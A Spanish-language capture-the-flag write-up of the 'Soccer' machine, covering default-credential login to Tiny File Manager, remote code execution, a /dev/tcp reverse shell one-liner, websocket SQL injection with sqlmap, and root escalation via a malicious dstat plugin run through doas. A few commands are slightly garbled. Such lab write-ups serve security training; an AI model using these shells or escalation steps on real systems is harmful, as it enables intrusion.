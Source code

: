 ```yaml
---
title: 'CTF - Soccer WriteUp'
date: '2022-12-27'
tags: ["CTF", "Rce", "Suid", "Dstat", "Doas", "Websockets"]
draft: true
authors: ['default']
summary: 'Reto CTF que consiste en encontrar un login vulnerable en un repositorio de Github. Se puede subir archivos y ejecutar código remoto. Luego, se puede realizar una inyección SQL y explotar los privilegios SUID del comando Doas para obtener acceso root.'
images: ["/static/images/uploads/ctf-soccer-write-up/Soccer.webp", "/static/images/uploads/ctf-soccer-write-up/image.webp", "/static/images/uploads/ctf-soccer-write-up/favicon.ico", "/static/images/uploads/ctf-soccer-write-up/spider-orange.webp", "/static/images/uploads/ctf-soccer-write-up/image-1.webp", "/static/images/uploads/ctf-soccer-write-up/image-2.webp"]
---
```


![](/static/images/uploads/ctf-soccer-write-up/Soccer.webp)

Hacer nmap

Hacer wfuzz y encontrar /tiny

![](/static/images/uploads/ctf-soccer-write-up/image.webp)

Ir al repositorio https://github.com/prasathmani/tinyfilemanager y encontrar el siguiente trozo de markdown.

Default username/password: **admin/admin@123** and **user/12345**.


Probarlo y estar dentro.

Puedes subir archivos y ejecutar codigo remoto 

[Tiny File Manager 2.4.6 - Remote Code Execution (RCE)Tiny File Manager 2.4.6 - Remote Code Execution (RCE). CVE-2021-45010CVE-2021-40964 . webapps exploit for PHP platform![](/static/images/uploads/ctf-soccer-write-up/favicon.ico)

Exploit DatabaseFEBIN MON SAJI![](/static/images/uploads/ctf-soccer-write-up/spider-orange.webp)](https://www.exploit-db.com/exploits/50828)Puedo entrar a una shell con el siguiente comando 


```
bash -c "sh -i >& /dev/tcp/10.10.14.88/1111 0>&1"
```
Mirando en /etc/***nginx***/***sites***-***available***/ vemos un subdominio: http://soc-player.soccer.htb. Es una web donde te puedes registrar y verificar tickets de futbol. 

![](/static/images/uploads/ctf-soccer-write-up/image-1.webp)

La comunicación que hay por debajo es websocket. 

Existe un script https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html que levanta un servidor http, que utilizaremos de proxy con sqlmap para poder realizar sqli directamente.

![](/static/images/uploads/ctf-soccer-write-up/image-2.webp)

Entro por ssh, y busco archivos suid 


```
find \-perm -4000 2/dev/null
```
Encuentro doas


```
player@soccer:/usr/local/bin$ ls -l
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 doas
-rwxr-xr-x 1 root root  2002 Nov 17 09:09 doasedit
-rwxr-xr-x 1 root root  5471 Nov 17 09:09 vidoas
```
El bit SUID activo.

Doas es un comando similar a sudo, capaz de ejecutar comandos desde otro usuario dependiendo su configuración. Su archivo de configuración por defecto está en /etc/doas.conf pero este no es el caso. Mirando el archivo vidoas, observamos los siguiente


```
player@soccer:/usr/local/bin$ cat vidoas | grep conf
# Edit a temporary copy of the doas.conf file and check it for syntax
# errors before installing it as the actual doas.conf file.
DOAS_CONF=/usr/local/etc/doas.conf
...
```
Haciendo un cat en esa ruta, vemos 


```
player@soccer:/usr/local/bin$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
dstat es un comando para ver procesos del sistema. Leyendo MAN, vemos que tiene una carpeta de plugins /usr/local/share/dstat/

Creamos un plugin dentro del directorio. El plugin tiene que seguir la siguiente convención de nombres: dstat\_.py. Por lo que ejecutamos el siguiente comando:


```
echo 'import os; os.system("bash -i")'  dstat_privesc.py
```
Ahora, debemos ejecutar dstat con ayuda de doas, siendo root y pasando el argumento necesario a dstat para que ejecute nuestro plugin. Como se denomina dstat\_privesc, tenemos que ejecutar el siguiente comando


```
doas -u root /usr/bin/dstat --privesc
root@soccer:/usr/local/share/dstat# whoami

# Output
root
```
